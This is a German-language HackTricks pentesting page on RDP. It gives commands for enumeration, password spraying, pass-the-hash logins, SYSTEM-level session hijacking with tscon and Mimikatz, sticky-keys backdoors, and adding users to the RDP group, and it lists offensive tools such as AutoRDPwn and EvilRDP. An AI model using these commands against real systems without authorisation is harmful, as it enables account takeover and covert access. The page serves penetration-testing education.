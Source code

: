 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Sofort verfügbarer Aufbau für Schwachstellenbewertung & Penetrationstests**. Führen Sie einen vollständigen Pentest von überall mit über 20 Tools und Funktionen durch, die von Recon bis Reporting reichen. Wir ersetzen keine Pentester - wir entwickeln maßgeschneiderte Tools, Erkennungs- und Ausnutzungs-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Grundinformationen

Entwickelt von Microsoft, ist das **Remote Desktop Protocol** (**RDP**) darauf ausgelegt, eine grafische Schnittstellenverbindung zwischen Computern über ein Netzwerk zu ermöglichen. Um eine solche Verbindung herzustellen, wird von dem Benutzer Software für den **RDP**-Client verwendet, während der entfernte Computer gleichzeitig Software für den **RDP**-Server betreiben muss. Dieses Setup ermöglicht die nahtlose Steuerung und den Zugriff auf die Desktop-Umgebung eines entfernten Computers, wodurch seine Schnittstelle im Wesentlichen auf das lokale Gerät des Benutzers gebracht wird.

**Standardport:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Aufzählung

### Automatisch

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

Es überprüft die verfügbaren Verschlüsselungen und DoS-Schwachstellen (ohne DoS für den Dienst zu verursachen) und erhält NTLM Windows-Informationen (Versionen).

### [Brute force](../generic-methodologies-and-resources/brute-force.md#rdp)

**Sei vorsichtig, du könntest Konten sperren**

### **Password Spraying**

**Sei vorsichtig, du könntest Konten sperren**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Mit bekannten Anmeldeinformationen/Hash verbinden
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Überprüfen Sie bekannte Anmeldeinformationen gegen RDP-Dienste

rdp\_check.py von impacket ermöglicht es Ihnen, zu überprüfen, ob einige Anmeldeinformationen für einen RDP-Dienst gültig sind:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Sofort verfügbare Einrichtung zur Schwachstellenbewertung & Penetrationstest**. Führen Sie einen vollständigen Pentest von überall mit über 20 Tools & Funktionen durch, die von Recon bis Reporting reichen. Wir ersetzen keine Pentester - wir entwickeln maßgeschneiderte Tools, Erkennungs- & Ausnutzungs-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Angriffe**

### Sitzungsdiebstahl

Mit **SYSTEM-Berechtigungen** können Sie auf jede **geöffnete RDP-Sitzung eines beliebigen Benutzers** zugreifen, ohne das Passwort des Eigentümers zu kennen.

**Geöffnete Sitzungen abrufen:**
```
query user
```
**Zugriff auf die ausgewählte Sitzung**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Jetzt sind Sie in der ausgewählten RDP-Sitzung und Sie werden einen Benutzer nur mit Windows-Tools und -Funktionen impersonieren.

**Wichtig**: Wenn Sie auf aktive RDP-Sitzungen zugreifen, werden Sie den Benutzer, der sie verwendet hat, abmelden.

Sie könnten Passwörter durch das Dumpen des Prozesses erhalten, aber diese Methode ist viel schneller und ermöglicht es Ihnen, mit den virtuellen Desktops des Benutzers zu interagieren (Passwörter in Notepad, ohne auf der Festplatte gespeichert zu werden, andere RDP-Sitzungen, die auf anderen Maschinen geöffnet sind...)

#### **Mimikatz**

Sie könnten auch Mimikatz verwenden, um dies zu tun:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Durch die Kombination dieser Technik mit **stickykeys** oder **utilman** kannst du jederzeit auf eine administrative CMD und jede RDP-Sitzung zugreifen.

Du kannst RDPs suchen, die bereits mit einer dieser Techniken backdoored wurden: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Prozessinjektion

Wenn sich jemand aus einer anderen Domäne oder mit **besseren Berechtigungen über RDP** an dem PC anmeldet, an dem **du Admin bist**, kannst du dein Beacon in seinen **RDP-Sitzungsprozess** **injizieren** und als er handeln:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Benutzer zur RDP-Gruppe hinzufügen
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatische Werkzeuge

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** ist ein Post-Exploitation-Framework, das in Powershell erstellt wurde und hauptsächlich dazu dient, den **Shadow**-Angriff auf Microsoft Windows-Computer zu automatisieren. Diese Schwachstelle (von Microsoft als Funktion aufgeführt) ermöglicht es einem entfernten Angreifer, **den Desktop seines Opfers ohne dessen Zustimmung zu sehen** und ihn sogar auf Abruf zu steuern, indem er Werkzeuge verwendet, die nativ im Betriebssystem vorhanden sind.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* Steuere Maus und Tastatur automatisiert über die Befehlszeile
* Steuere die Zwischenablage automatisiert über die Befehlszeile
* Erzeuge einen SOCKS-Proxy vom Client, der die Netzwerkkommunikation über RDP zum Ziel leitet
* Führe beliebige SHELL- und PowerShell-Befehle auf dem Ziel aus, ohne Dateien hochzuladen
* Lade Dateien zum/vom Ziel hoch und herunter, selbst wenn Dateiübertragungen auf dem Ziel deaktiviert sind

## HackTricks Automatische Befehle
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Sofort verfügbare Einrichtung für Schwachstellenbewertung & Penetrationstests**. Führen Sie einen vollständigen Pentest von überall mit über 20 Tools und Funktionen durch, die von Recon bis Reporting reichen. Wir ersetzen keine Pentester - wir entwickeln maßgeschneiderte Tools, Erkennungs- und Ausnutzungs-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu knacken und Spaß zu haben.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
